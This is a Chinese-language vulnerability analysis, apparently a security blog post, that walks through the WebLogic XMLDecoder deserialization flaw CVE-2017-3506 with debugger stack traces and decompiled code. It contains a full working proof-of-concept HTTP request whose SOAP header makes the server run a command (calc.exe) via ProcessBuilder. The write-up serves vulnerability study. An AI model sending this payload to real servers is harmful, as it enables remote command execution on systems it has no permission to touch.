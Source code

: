 ### 0x01 前言

接着上一节，说说Weblogic中的XMLDecoder反序列化（CVE-2017-3506),其实关于这个漏洞后续还有多个绕过，CVE编号分别为：CVE-2017-10271、CVE-2019-2725

关于后面两个漏洞以及对应的绕过手法，我们后续再谈~(怎么感觉给自己开的坑越来越多)

### 0x02 调试分析

调试Webloig需要搭建好配置的环境以及对应的POC,关于Weblogic的远程调试方法，我在 **《IDEA调试技巧2》** 中已经讲解了，poc如下：

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: localhost:7001
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: close
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: text/xml;charset=UTF-8
Content-Length: 757


            <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
              <soapenv:Header>
                <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
                  <java>
                    <object class="java.lang.ProcessBuilder">
                      <array class="java.lang.String" length="1">
                        <void index="0">
                          <string>calc.exe</string>
                        </void>
                      </array>
                      <void method="start"/>
                    </object>
                  </java>
                </work:WorkContext>
              </soapenv:Header>
              <soapenv:Body/>
            </soapenv:Envelope>
            
```

分析一个漏洞的目的是什么?在我这里，就是弄清楚整个漏洞的利用链，学习一些手法或者挖掘思路，怎么弄清楚利用链呢？其实我在另一篇 **《IDEA调试技巧1》** 中有提到过相关方法，从POC中可以看出，如果这个xml文件被反序列化将会调用ProcessBuilder类的start方法，所以，我们只需要用idea在ProcessBuilder的start方法处下断点然后观察堆栈调用，就可以看到整个利用链

然后我们可以进一步分析我们感兴趣的类，说干就干，在start处下断点，然后发送payload:

![](weblogic_xmldecoder/exp_chain.png)

注意到调用堆栈中的有XMLDecoder类的readObject方法，一下子我们就定位到了问题!

为了更加详细的了解这个漏洞，我们还是从processRequest方法跟一下,看看细节

```java
    public NextAction processRequest(Packet var1) {
        this.isUseOldFormat = false;
        if (var1.getMessage() != null) {
            HeaderList var2 = var1.getMessage().getHeaders();
            Header var3 = var2.get(WorkAreaConstants.WORK_AREA_HEADER, true);
            if (var3 != null) {
                this.readHeaderOld(var3);
                this.isUseOldFormat = true;
            }

            Header var4 = var2.get(this.JAX_WS_WORK_AREA_HEADER, true);
            if (var4 != null) {
                this.readHeader(var4);
            }
        }

        return super.processRequest(var1);
    }
```
上面的processRequest方法的参数var1的content就是我们发送的xml数据，然后var3为null就会执行readHeaderOld，

![](weblogic_xmldecoder/var3.png)

if 判断前的两行代码分别是获取payload中的下面两行的(大概是这么个意思~)

![](weblogic_xmldecoder/header.png)

所以，payload中的这两行不能少,然后我们到readHeaderOld中看一下：
代码不多，但是其中的每一个变量的属性都很多，实在不想一个个看了，我直接步进，直到112行这儿，从IDEA中可以看到var4的内容为
![](weblogic_xmldecoder/var4.png)

```
<java>
                    <object class="java.lang.ProcessBuilder">
                      <array class="java.lang.String" length="1">
                        <void index="0">
                          <string>calc.exe</string>
                        </void>
                      </array>
                      <void method="start"/>
                    </object>
                  </java>
```

这就应该引起我们的注意了，可以看到var4在112行这里先是调用了toByteArray,然后被包装到ByteArrayInputStream中，最后传入到WorkContextXmlInputAdapter的构造函数，我们跟进：

```java
    public WorkContextXmlInputAdapter(InputStream var1) {
        this.xmlDecoder = new XMLDecoder(var1);
    }
```

在这个构造函数中，var4又被封装到XMLDecoder中，如果你认真学习了XMLDecoder反序列化原理那一篇文章，你应该知道，现在如果有一处代码调用this.xmlDecoder.readObject(),那么就会产生反序列化漏洞，所以我们回到readHeaderOld方法，继续往下看，到this.receive(var6),跟进receive方法：

```java
    protected void receive(WorkContextInput var1) throws IOException {
        WorkContextMapInterceptor var2 = WorkContextHelper.getWorkContextHelper().getInterceptor();
        var2.receiveRequest(var1);
    }
```

我们需要关注的是receiveRequest方法，跟进：

```java
    public void receiveRequest(WorkContextInput var1) throws IOException {
        ((WorkContextMapInterceptor)this.getMap()).receiveRequest(var1);
    }
```

还是继续追踪变量，跟进receiveRequest：

```java
    public void receiveRequest(WorkContextInput var1) throws IOException {
        while(true) {
            try {
                WorkContextEntry var2 = WorkContextEntryImpl.readEntry(var1);
                if (var2 == WorkContextEntry.NULL_CONTEXT) {
                    return;
                }

                String var3 = var2.getName();
                this.map.put(var3, var2);
                if (debugWorkContext.isDebugEnabled()) {
                    debugWorkContext.debug("receiveRequest(" + var2.toString() + ")");
                }
            } catch (ClassNotFoundException var4) {
                if (debugWorkContext.isDebugEnabled()) {
                    debugWorkContext.debug("receiveRequest : ", var4);
                }
            }
        }
    }
```

跟进readEntry:

```java
    public static WorkContextEntry readEntry(WorkContextInput var0) throws IOException, ClassNotFoundException {
        String var1 = var0.readUTF();
        return (WorkContextEntry)(var1.length() == 0 ? NULL_CONTEXT : new WorkContextEntryImpl(var1, var0));
    }
```

跟进readUTF:

```java
    public String readUTF() throws IOException {
        return (String)this.xmlDecoder.readObject();
    }
```

到这里就执行了this.xmlDecoder.readObject(),漏洞触发,合影留念：

![](weblogic_xmldecoder/calc.png)



